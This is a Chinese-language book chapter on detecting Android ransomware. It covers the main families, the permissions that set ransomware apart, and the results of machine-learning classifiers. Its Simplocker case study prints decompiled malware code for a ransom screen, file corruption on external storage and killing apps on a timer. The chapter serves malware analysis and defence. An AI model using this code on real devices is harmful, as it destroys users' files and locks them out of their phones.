


## **10

勒索病毒**


勒索病毒攻击已经瞄准了医院、金融公司、学术机构和其他组织，并引起了广泛的媒体关注。例如，2017 年的 WannaCry 攻击就具备了间谍惊悚片的所有特点。报道称，除了其他功能外，它通过名为 EternalBlue 的漏洞利用代码，滥用未修补的漏洞，而 EternalBlue 最初是由美国国家安全局（NSA）开发的，导致了高达 80 亿美元的损失。

如果这本书中有任何好消息，那就是像这样的勒索病毒攻击并没有显著影响到 Android。针对 Android 操作系统的勒索病毒一直相对罕见，现在几乎已经灭绝。我们认为这是因为 Android 勒索病毒应用无法可靠地在设备之间传播。此外，Android 的应用程序隔离架构使得在没有有效特权提升漏洞的情况下，很难加密其他应用拥有的文件。另一个障碍是，设备通常会自动将用户文件备份到云端，因此用户可以简单地卸载勒索病毒或恢复出厂设置，而不是支付赎金，然后恢复云端备份。

移动勒索病毒的盈利性也低于其他形式的勒索病毒。大多数 Android 用户是个人，而不是公司，因此他们的设备包含的敏感数据较少，而且他们的支付能力较低，这使得他们成为较不具吸引力的目标。相比之下，大型公司在勒索病毒攻击后可能需要支付数百万美元来恢复数据、控制系统并继续运营。例如，彭博社报道称，总部位于芝加哥的保险巨头 CNA 在 2021 年支付了 4000 万美元的赎金。

我们将从简要描述 Android 勒索病毒及讨论具体的勒索病毒家族开始。然后，我们将分析机器学习分类器在检测勒索病毒方面的表现。

### **勒索病毒攻击如何运作**

在 Android 上，勒索病毒主要有两大类：锁屏病毒和加密病毒。*锁屏病毒*通常在操作系统层面锁定设备。当用户尝试启动设备时，会弹出一个屏幕要求支付赎金。为了恢复访问，用户必须按照指示支付赎金，通常是加密货币。锁屏病毒通常不加密文件，因为数据的完整性没有被破坏，所以通常可以通过进入*安全模式*来恢复设备，这是一种所有 Android 手机都具备的鲜为人知的功能，可以加载一个最简化的操作系统，而不运行用户的应用程序。

*加密*勒索病毒会加密设备上一些或所有的文件，至少会在 Android 的应用和存储隔离保护允许的范围内加密。受害者无法访问这些文件，直到支付赎金才能恢复。虽然他们此后应当收到解密密钥，但并非所有支付赎金的受害者都会收到有效的密钥。第三类勒索病毒，*加密锁*，结合了加密和锁定勒索病毒的特征。

自动备份可以帮助受害者避免勒索病毒的最坏影响。作为回应，现代勒索病毒通常使用 *加密、外泄与泄漏（EEL）* 策略。EEL 勒索病毒加密用户的文件，将其外泄到命令与控制中心，并威胁如果不支付赎金就会泄露私人数据。有时，攻击者会释放部分数据，然后加大勒索要求，威胁如果不支付更高金额，就会泄露更多数据。

正如你在下一节中将看到的，勒索病毒应用通常不会出现在 Google Play 上，这表明大多数勒索病毒通过应用侧载进入用户设备。这是因为非官方的应用商店可能没有 Google Play 内置的复杂安全机制。安卓用户也可能成为恶意网站的受害者。

### **安卓勒索病毒家族**

Chiffon 是一个著名的安卓勒索病毒家族，由安全公司 Zscaler 在 2015 年发现。它通过用户下载看似色情的应用程序进入设备。一旦安装，Chiffon 会尝试使用设备的摄像头拍摄受害者的照片。然后，这张照片会作为勒索信的一部分呈现给受害者，导致受害者担心这张照片会发送给他们通讯录中的所有人，或者他们的联系人会收到一条包含色情应用程序链接的消息。

Jisut 勒索病毒家族首次出现在 2014 年，随后生成了成千上万的变种。应用启动后，会请求管理员权限，并利用这些权限锁定设备或加密用户的文件。然后它会通知用户设备被感染，并要求支付赎金。该恶意软件家族的某些版本还具有间谍软件的特征，因为它们窃取了中国社交网络 QQ 的密码。有关该勒索病毒家族的技术论文，请参见 Alejandro Martín 等人撰写的《Jisut 家族安卓勒索病毒深入研究》。

LeakerLocker 是一种通过虚假壁纸和设备清理应用传播的勒索病毒家族。与其锁定设备，LeakerLocker 捕获了用户的数据，如个人照片、联系人、短信、通话记录、Facebook 消息、浏览网站记录、完整的电子邮件消息以及 GPS 信息。勒索信威胁将这些数据公开到互联网上，然后提示用户使用信用卡付款。McAfee 在 2017 年的博客文章《LeakerLocker: 移动勒索病毒无加密行为》中首次描述了这种恶意软件。

Simplocker 常被认为是 Android 平台上的第一个加密勒索软件。它在 2014 年被发现，并由捷克反恶意软件公司 ESET 在其恶意软件数据库网站上进行了描述。这种勒索软件最初被伪装成一款防病毒工具。下载后，该应用会加密设备 SD 卡上的文件，并要求支付赎金。尽管该勒索软件家族的不同版本具有不同的特征，但某些版本会使用 Tor 网络来促进应用与攻击者的指挥与控制服务器之间的通信。

Svpeng 最初作为一款银行木马被发现，Kaspersky 于 2013 年发现了它。2017 年，Svpeng 增加了勒索软件功能。潜在的受害者收到了一封看似来自 FBI 的邮件。邮件声称用户涉及观看或传播色情内容，并威胁要罚款和监禁，除非用户按照邮件中的指示行动，包括向犯罪分子发送一张预付的 MoneyPak 卡。

Police 是一种 Android 勒索软件家族，在许多方面与 Chiffon 和 Svpeng 类似。像 Chiffon 一样，它通过一款色情应用程序到达设备；像 Svpeng 一样，它伪装成警察，指控用户传播色情内容，并威胁要采取各种法律后果，除非受害者支付赎金。类似地，SimpleLocker 是一种著名的勒索软件家族，它在用户试图访问一个虚假的色情网站时感染设备。一旦被感染，该应用会加密受害者 SD 卡上的内容，如文档、图片和视频，并向用户提出赎金要求。



*图 10-1：最能区分 Android 勒索软件与良性软件的前 20 大特征*

大约在 2017 年发现的 Anubis 是一款混合恶意软件，既是银行木马，又是间谍软件，它通过窃取如 PayPal 等金融网站的登录凭证来操作。2019 年，它增加了勒索软件模块，用于锁定屏幕和加密文件。

### **勒索软件与良性软件**

图 10-1 展示了使用在第七章中讨论的 Extra-Trees 分类器将勒索软件与良性软件区分开的 20 个关键特征。

如你所见，前 20 大特征中有 11 个与权限相关。请注意，与 ABT（高级持续性威胁）不同，SMS 相关权限在区分勒索软件与良性软件时并不重要。让我们来看看那些更有帮助的特征。

#### ***与权限相关的特征***

`MOUNT_UNMOUNT_FILESYSTEMS` 权限是分类勒索软件时最重要的权限之一，因为超过 40% 的勒索软件应用请求此权限，而正常应用仅约 5% 请求此权限。这令人吃惊，因为该权限需要使用特权提升漏洞，允许应用操作文件系统。我们尚未发现任何含有此类漏洞的 Android 勒索软件，因此该恶意软件在实际操作中无法使用此权限。少数勒索软件家族可能扭曲了这一功能的统计分布，多个勒索软件家族请求数十个权限，包括 `MOUNT_UNMOUNT_FILESYSTEMS`，但并未实际使用这些权限。

我们在前面的章节中描述了 `GET_TASKS` 权限。简而言之，它允许应用查看设备上正在运行的进程。该权限也可以用于防御目的，例如检查设备上是否存在安全软件，或者强迫用户以特定方式与用户界面互动。Svpeng 勒索软件家族使用此权限确保用户在管理界面授予勒索软件设备管理员权限，而 Simplocker 家族则持续监控前台应用程序，并尽快尝试结束任何非勒索软件本身的应用。勒索软件请求此权限的频率是正常应用的约四倍。

`INSTALL_PACKAGES` 权限使特权应用能够静默安装其他应用。由于此权限是特权权限，普通应用无法使用，正常应用几乎从不请求此权限。然而，超过 20% 的勒索软件应用请求此权限，原因尚不清楚。与 `MOUNT_UNMOUNT_FILESYSTEMS` 权限类似，勒索软件实际上无法使用此权限，而我们从库中抽查的勒索软件样本显示，大多数请求 `INSTALL_PACKAGES` 的样本也会请求未经特权且用户同意的 `REQUEST_INSTALL_PACKAGES` 权限。也有可能勒索软件开发者同时请求这两个权限，以防万一应用 somehow 获得提升的权限。

`READ_PHONE_STATE` 权限是勒索软件请求的频率是正常应用的两倍多。它使勒索软件能够提取用户的电话号码、当前通话记录、手机服务提供商等信息。原则上，它可能使勒索软件开发者能够直接拨打受害者电话，与其通话。

`ACCESS_WIFI_STATE` 权限允许访问 Android 的 `WifiManager`，以获取设备 Wi-Fi 连接的状态。我们曾见过一些勒索软件应用，如 Simplocker，利用此权限强制建立 Wi-Fi 连接，确保勒索软件能够与其指挥控制服务器通信。超过 80% 的勒索软件样本请求此权限，远高于正常应用请求此权限的比例。

不出所料，勒索软件应用会使用`SYSTEM_ALERT_WINDOW`权限在整个屏幕上放置一个窗口，可能是用来显示赎金要求。值得注意的是，叠加窗口阻止了用户操作设备。勒索软件请求此权限的概率大约是良性软件请求它的四倍。

`READ_LOGS`权限是勒索软件请求的权限，频率是良性软件的四倍。我们还没有观察到它用于与锁定手机或索要赎金相关的功能，但怀疑它是勒索软件开发者在技术选择中所做的产物。例如，一些勒索软件家族使用商业应用保护工具，如腾讯乐固或奇虎 360 加固，来保护自己免受逆向工程攻击。这些保护工具使用`READ_LOGS`权限收集崩溃诊断的日志信息。由于勒索软件家族数量较少，即使是少数开发者的技术选择也会对机器学习特征产生巨大的影响。

恶意软件几乎从不使用`KILL_BACKGROUND_PROCESSES`权限，但超过 25%的勒索软件会使用此权限。该权限使勒索软件能够终止设备上可能正在运行的任何杀毒进程。如前所述，一些勒索软件家族，如 Simplocker，还尝试一刀切地终止除勒索软件以外的所有进程，一些勒索软件还允许列出明确的系统设置对话框，要求用户与之互动。

勒索软件请求`RECEIVE_BOOT_COMPLETED`权限的频率是良性软件的近三倍。这个权限很重要，因为它允许勒索软件在用户重启设备时启动。一旦启动完成，恶意应用就可以立即阻止用户访问设备，并显示赎金要求屏幕。

`RESTART_PACKAGES`权限是另一个恶意软件较少使用，但超过 25%的勒索软件会请求的权限。我们没有发现它在任何实际的勒索软件行为中被使用，但有时它被嵌入在勒索软件应用中的 SDK 使用。即便如此，这也是令人惊讶的，因为该权限在 2011 年 Android 4.0.3（冰淇淋三明治）中已经被废弃。

表 10-1 展示了六个重要恶意软件家族请求的一些常见权限。我们看到一些家族，如 Simplocker，请求几乎所有权限，而其他家族则更加挑剔。

**表 10-1：** 勒索软件家族请求的权限

| **权限** | **Chiffon** | **LeakerLocker** | **Simplocker** | **Police** | **Jisut** | **SimpleLocker** |
| --- | --- | --- | --- | --- | --- | --- |
| `MOUNT_UNMOUNT_FILESYSTEMS` | 否 | 否 | 是 | 否 | 是 | 否 |
| `GET_TASKS` | 是 | 否 | 是 | 否 | 否 | 否 |
| `INSTALL_PACKAGES` | 否 | 否 | 是 | 否 | 是 | 否 |
| `READ_PHONE_STATE` | 是 | 是 | 是 | 否 | 否 | 是 |
| `GET_PACKAGE_SIZE` | 否 | 否 | 是 | 否 | 否 | 否 |
| `ACCESS_WIFI_STATE` | 否 | 是 | 是 | 否 | 否 | 否 |
| `SYSTEM_ALERT_WINDOW` | 是 | 是 | 是 | 是 | 是 | 否 |
| `READ_LOGS` | 否 | 否 | 是 | 否 | 否 | 否 |
| `KILL_BACKGROUND_PROCESSES` | 否 | 否 | 是 | 否 | 否 | 否 |
| `RECEIVE_BOOT_COMPLETED` | 是 | 是 | 是 | 是 | 是 | 是 |
| `RESTART_PACKAGES` | 否 | 否 | 是 | 否 | 否 | 否 |

一些权限，如`RECEIVE_BOOT_COMPLETED`，是我们研究的所有六个家族请求的，而其他权限，如`READ_LOGS`和`KILL_BACKGROUND_PROCESSES`，仅由一个应用请求。这些简单的分析展示了勒索软件行为的多样性。

#### ***其他特征***

勒索软件往往比正常软件更频繁地调用`org.apache.conn`和`org.apache.conn.scheme`，可能是为了保持受感染设备与恶意软件开发者的命令与控制服务器之间的连接。由于安卓平台上的勒索软件较为罕见，且已识别的家族数量较少，即使只有少数勒索软件使用 Apache 库，这些与 Apache 调用相关的特征的预测能力也相对较高，这解释了这些观察结果。

我们的分析还表明，勒索软件应用调用各种安卓 API 包的次数少于正常软件。勒索软件通常是较小的 APK，专注于其核心业务，与合法应用不同，它们只需要使用少数几个安卓 API 包即可达到目的。

#### ***预测效果***

表 10-2 展示了不同特征集下，选定的机器学习分类器在区分勒索软件与正常软件方面的表现。第一列列出了用于预测的特征类型，包括基本 API、静态和动态特征，以及从 TSG、地标、特征聚类和相关图谱中衍生的高级特征。我们还展示了这些特征类型的组合。第二列显示了使用给定行中特征集的最佳分类方法，后续列展示了不同的预测性能指标。

**表 10-2：** 评估安卓勒索软件与正常软件的指标

| **特征集** | **最佳分类器** | **AUC** | **精度** | **召回率** | **F1** | **假阳性率 (FPR)** | **假阴性率 (FNR)** |
| --- | --- | --- | --- | --- | --- | --- | --- |
| API 包 | XGBoost | 0.8979 | 0.8670 | 0.7926 | 0.8282 | 0.1330 | 0.1918 |
| 静态 (S) | XGBoost | 0.8982 | 0.8570 | 0.7836 | 0.8187 | 0.1430 | 0.2009 |
| 动态 (D) | MLP | 0.8082 | 0.7806 | 0.6359 | 0.7009 | 0.2194 | 0.3094 |
| S + D | RF | 0.9100 | 0.8498 | 0.8106 | 0.8297 | 0.1502 | 0.1822 |
| API + S + D | GBDT | 0.9168 | 0.8635 | 0.8285 | 0.8456 | 0.1365 | 0.1659 |
| TSG | XGBoost | 0.8231 | 0.7353 | 0.7540 | 0.7445 | 0.2647 | 0.2541 |
| LM | RF | 0.7947 | 0.7409 | 0.6350 | 0.6839 | 0.2591 | 0.3217 |
| FC | SVM | 0.6571 | 0.9262 | 0.3189 | 0.4745 | 0.0738 | 0.4135 |
| CG | RF | 0.6229 | 0.6022 | 0.4194 | 0.4944 | 0.3978 | 0.4477 |
| API + S + D + TSG | GBDT | 0.9457 | 0.8845 | 0.8803 | 0.8824 | 0.1155 | 0.1199 |
| API + S + D + LM | GBDT | 0.9431 | 0.8789 | 0.8822 | 0.8805 | 0.1211 | 0.1190 |
| API + S + D + FC | RF | 0.9439 | 0.8789 | 0.8756 | 0.8772 | 0.1211 | 0.1248 |
| API + S + D + CG | XGBoost | 0.9447 | 0.8794 | 0.8794 | 0.8794 | 0.1206 | 0.1214 |
| 所有特征 | XGBoost | 0.9243 | 0.8470 | 0.9329 | 0.8879 | 0.1530 | 0.0604 |
| 最佳晚期融合 | XGBoost | 0.9653 | 0.9197 | 0.9649 | **0.9418** | 0.0803 | 0.0458 |

如你所见，本书中描述的机器学习方法可以达到近 92% 的精度和超过 96% 的召回率，表现相当优秀。

### **勒索软件与其他恶意软件**

图 10-2 显示了区分勒索软件与其他恶意软件的 20 个最重要特征。

权限在这里起到了最大作用，因此我们将重点关注这些。勒索软件似乎比其他恶意软件类别更多地调用了 `android.security`、`android.content.pm` 和 `android.database`，但这些差异相对较小。类似地，我们再次看到，勒索软件比其他恶意软件更多地调用了 `org.apache.http.conn`、`org.apache.http.conn.schema` 和 `org.apache.http.params` 等函数。

#### ***与权限相关的特征***

你应该立刻注意到，其他恶意软件请求与 SMS 相关的权限（`SEND_SMS`、`RECEIVE_SMS` 和 `WRITE_SMS`）比勒索软件更频繁。这并不奇怪，因为其他类型的恶意软件使用这些权限来执行任务，例如拦截双因素认证消息，而勒索软件不需要这么做。



*图 10-2：最佳区分 Android 勒索软件与其他恶意软件的前 20 个特征*

另一方面，勒索软件比其他形式的恶意软件更有可能请求 `RESTART_PACKAGES` 和 `READ_LOGS` 权限，这两者在上一节中已经描述过。另一个勒索软件应用程序比其他类型恶意软件请求得更频繁的权限是 `DIAGNOSTIC`，该权限允许应用程序读取和写入诊断资源。然而，由于此权限是特权权限，未获得特权的应用程序无法使用它，包括我们目前所知道的所有勒索软件家族。

#### ***预测效果***

表 10-3 显示了机器学习算法在区分勒索软件和其他恶意软件方面的效果。

**表 10-3：** Android 勒索软件与其他恶意软件分类

| **特征集** | **最佳分类器** | **AUC** | **精度** | **召回率** | **F1** | **假阳性率（FPR）** | **假阴性率（FNR）** |
| --- | --- | --- | --- | --- | --- | --- | --- |
| API 包 | XGBoost | 0.8075 | 0.8135 | 0.7921 | 0.8027 | 0.1865 | 0.2043 |
| 静态（S） | XGBoost | 0.7739 | 0.7652 | 0.7926 | 0.7787 | 0.2348 | 0.2165 |
| 动态（D） | RF | 0.6756 | 0.6395 | 0.6739 | 0.6563 | 0.3605 | 0.3470 |
| S + D | GBDT | 0.7949 | 0.7977 | 0.7827 | 0.7901 | 0.2023 | 0.2151 |
| API + S + D | GBDT | 0.8209 | 0.8088 | 0.8172 | 0.8129 | 0.1912 | 0.1856 |
| TSG | RF | 0.7097 | 0.7110 | 0.7097 | 0.7104 | 0.2890 | 0.2917 |
| LM | RF | 0.7443 | 0.7611 | 0.5992 | 0.6705 | 0.2389 | 0.3328 |
| FC | SVM | 0.5459 | 0.5222 | 0.6211 | 0.5674 | 0.4778 | 0.4713 |
| CG | RF | 0.7443 | 0.7611 | 0.5992 | 0.6705 | 0.2389 | 0.3328 |
| API + S + D + TSG | GBDT | 0.9180 | 0.8619 | 0.8351 | 0.8483 | 0.1381 | 0.1610 |
| API + S + D + LM | XGBoost | 0.8718 | 0.8385 | 0.7667 | 0.8010 | 0.1615 | 0.2166 |
| API + S + D + FC | GBDT | 0.8791 | 0.8388 | 0.7653 | 0.8004 | 0.1612 | 0.2171 |
| API + S + D + CG | GBDT | 0.8983 | 0.8688 | 0.7912 | 0.8282 | 0.1312 | 0.1932 |
| All features | XGBoost | 0.9168 | 0.8635 | 0.8285 | 0.8456 | 0.1365 | 0.1659 |
| Best late fusion | XGBoost | 0.8593 | 0.8718 | 0.9497 | **0.9091** | 0.1282 | 0.2545 |

在这种情况下，精确度和召回率较低，分别约为 87％和 95％。将勒索软件与其他恶意软件区分开来比将勒索软件与良性软件区分开来更困难，这并不令人惊讶，因为勒索软件往往与其他恶意软件类别有更多共同之处，而不是与良性软件。

### **Simplocker：案例研究**

本节中，我们探讨 Simplocker 勒索软件应用程序* qok.wrrgz.xcfwc *（v1，a10b）。此应用程序请求了大量的权限，权限列表过长，无法在此展示。请求如此多权限的动机尚不明确，因为对该样本的代码分析表明，绝大多数权限实际上并未被使用。这种行为与我们在本章前面讨论的机器学习结果分析中发现的情况一致：勒索软件似乎经常请求它并不使用或无法使用的权限。

让我们看看该应用是如何实现其恶意行为的。列表 10-1 展示了 Simplocker 用于构造赎金条款的对话框定义代码。

```
<?xml version="1.0" encoding="utf-8"?>
...
        <TextView android:textAppearance="?android:attr/textAppearanceMedium"
android:textSize="16sp" android:textColor="#ffffffff" android:id="@+id/textView1"
android:layout_width="match_parent" android:layout_height="wrap_content" 
android:layout_marginLeft="10dp" android:layout_marginTop="10dp" android:layout_
marginRight="10dp" android:layout_marginBottom="10dp" android:text="To unlock your 
device and to avoid other legal consequences, you are obligated to pay a release fee 
of $300\. Payable through GreenDot MoneyPak (you have to purchase MoneyPak card. load 
it with $300 and enter the code). You can buy the card at any store or gas station,
payzone or paypoint."/>
      </LinearLayout>
...
        <TextView android:textSize="20sp" android:textColor="#ffffffff" 
android:gravity=
"center" android:id="@+id/textView2" android:padding="15dp" android:layout_width=
"wrap_content" android:layout_height="wrap_content" android:text="Wrong MoneyPack code.
You have only 3 attempts. Please try again"/>
      </LinearLayout>
...
        <EditText android:id="@+id/et_number" android:layout_width=
"match_parent" android:layout_height="wrap_content" android:layout_marginLeft="30dp" 
android:layout_marginRight="30dp" android:hint="Enter $300 MoneyPak code" 
android:ems="10" android:maxLength="14" android:inputType="number"/>
      <LinearLayout android:gravity="center" android:layout_width=
"match_parent" android:layout_height="wrap_content">
...
        <TextView android:textSize="30sp" android:textColor="#ffffffff" 
android:gravity="center" android:id="@+id/textView3" android:padding="20dp" 
android:layout_width="match_parent" android:layout_height="wrap_content" 
android:text="Your request will be processed within 24 hours"/>
      </LinearLayout>
```

*列表 10-1：用于显示 Simplocker 赎金条款的代码*

这段代码包含以下文本，清楚地表明我们正在处理勒索软件：

要解锁您的设备并避免其他法律后果，您有义务支付$300 的释放费用。可以通过 GreenDot MoneyPak 支付（您需要购买 MoneyPak 卡，将其充值$300 并输入代码）。您可以在任何商店或加油站、支付区或支付点购买该卡。

接下来，列表 10-2 展示了 Simplocker 用于加密文件的代码。加密过程非常简单。对于勒索软件能够在外部存储上写入的每个文件（见`encryptAll`），它将文件中所有字节的值增加 1（见`goToDir`）。

```
public static void goToDir(File file, boolean z) {
  Log.v("CRYPT", file.getAbsolutePath());
  if (z) {
    try {
      byte[] readBytes = readBytes(
        String.valueOf(String.valueOf(file.getAbsolutePath().substring(
          0, file.getAbsolutePath().lastIndexOf("/"))) + "/" + file.getName()));
      byte[] bArr = new byte[readBytes.length];
      for (int i = 0; i < readBytes.length; i++) {
        bArr[i] = (byte) (readBytes[i] + 1);
      }
      BufferedOutputStream bufferedOutputStream = new BufferedOutputStream(
        new FileOutputStream(new File(file.getAbsolutePath())));
      bufferedOutputStream.write(bArr);
      bufferedOutputStream.flush();
      bufferedOutputStream.close();
    } catch (Throwable th) {
      File[] listFiles = new File(file.getAbsolutePath()).listFiles();
      for (File goToDir : listFiles) {
        goToDir(goToDir, z);
      }
    }
  } else {
    byte[] readBytes2 = readBytes(
      String.valueOf(String.valueOf(file.getAbsolutePath().substring(
        0, file.getAbsolutePath().lastIndexOf("/"))) + "/" + file.getName()));
    byte[] bArr2 = new byte[readBytes2.length];
    for (int i2 = 0; i2 < readBytes2.length; i2++) {
      bArr2[i2] = (byte) (readBytes2[i2] - 1);
    }
    BufferedOutputStream bufferedOutputStream2 = new BufferedOutputStream(
      new FileOutputStream(new File(file.getAbsolutePath())));
    bufferedOutputStream2.write(bArr2);
    bufferedOutputStream2.flush();
    bufferedOutputStream2.close();
  }
}

public void encryptAll() {
  File[] listFiles = new File(
    String.valueOf(Environment.getExternalStorageDirectory())).listFiles();
  for (File goToDir : listFiles) {
    goToDir(goToDir, true);
  }
}
```

*列表 10-2：用于加密 Simplocker 中的文件的代码*

这种加密方式很容易被破解，但对于没有经验的用户来说，它足以完全破坏所有文件内容。请注意，我们可以在同一个函数中找到解密功能。传递给`goToDir`的布尔标志`z`决定了该函数是执行加密还是解密。

Listing 10-3 显示了用于结束相关进程并计时锁定机制的代码片段。

```
/* compiled from: BackgroundService */
public class Hans5 extends Service {
  public static Hans5 Activity = null;
  public static Timer LockerExecutor = null;
  public static PowerManager.WakeLock wakeLock;

  public static void BringToFront(Context context) {
    try {
      Intent intent = new Intent(context.getApplicationContext(), Hans2.class);
      intent.setFlags(272629760);
      context.startActivity(intent);
    } catch (Throwable th) {
      th.printStackTrace();
    }
  }

  private TimerTask LockerTimer() {
    return new TimerTask() {
      public void run() {
        try {
          if (Hans2.Activity != null && !Hans2.STOP &&
              ((PowerManager) Hans2.Activity.getSystemService("power")).isScreenOn()) {
            ActivityManager activityManager =
              (ActivityManager) Hans2.Activity.getSystemService("activity");
            List<ActivityManager.RunningTaskInfo> runningTasks =
              activityManager.getRunningTasks(1);
            ComponentName componentName = runningTasks.get(0).topActivity;
            String packageName = componentName.getPackageName();
            if (!packageName.equals("qok.wrrgz.xcfwc") &&
                !packageName.equals("com.android.settings")) {
              Process.killProcess(runningTasks.get(0).id);
              Hans2.Activity.finishActivity(runningTasks.get(0).id);
              activityManager.killBackgroundProcesses(
                componentName.getPackageName());
              Hans5.BringToFront(Hans2.Activity.getApplicationContext());
            }
          }
          if (Hans5.Activity == null) {
            Intent intent = new Intent();
            intent.setAction("qok.wrrgz.xcfwc.Hans5");
            Hans5.this.getApplicationContext().startService(intent);
          }
        } catch (Throwable th) {
          th.printStackTrace();
        }
      }
    };
  }

  public void onStart(Intent intent, int i) {
    Activity = this;
    wakeLock = ((PowerManager) getSystemService("power")).newWakeLock(1, "locker");
    wakeLock.acquire();
    startTimer(LockerExecutor, LockerTimer(), 0, 10);
    super.onStart(intent, i);
  }

  ...
}
```

*Listing 10-3: 用于结束进程的代码*

勒索病毒通过`Timer.scheduleAtFixedRate`设置了一个重复的定时器。结果，每隔 10 毫秒，勒索病毒都会检查用户当前正在交互的应用程序，如果不是勒索病毒本身或设置应用程序，它会终止该应用程序。为什么勒索病毒允许设置应用程序仍不清楚。

### **重要勒索病毒样本的预测**

Table 10-4 显示了我们的机器学习分类器在面对本章讨论的勒索病毒样本时的表现。

**表 10-4：** 机器学习分类器在勒索病毒家族上的表现

| **勒索病毒** | **与良性软件区分** | **与其他恶意软件区分** |
| --- | --- | --- |
| Chiffon | 是 | 是 |
| LeakerLocker | 是 | 是 |
| Simplocker | 是 | 是 |
| Svpeng | 是 | 否 |
| 警察 | 是 | 是 |
| Jisut | 是 | 是 |
| Anubis | 是 | 否 |
| SimpleLocker | 是 | 是 |

我们看到，在所有情况下，机器学习分类器都能正确地将样本识别为勒索病毒，而不是良性软件，并且在八个案例中有六个能够正确识别恶意软件的类型，尽管其中一些样本与其他恶意软件类别共享特征。

### **接下来**

勒索病毒事件在安卓平台上的发生并不如在 Windows 平台上常见，后者是大多数勒索病毒事件发生的地方。在本章中，我们展示了权限再次是区分勒索病毒和良性软件的关键特征，尽管不同勒索病毒样本使用的权限差异很大。在下一章中，我们将研究一种在安卓平台上更为常见的恶意软件形式：短信诈骗。

[*OceanofPDF.com*](https://oceanofpdf.com)
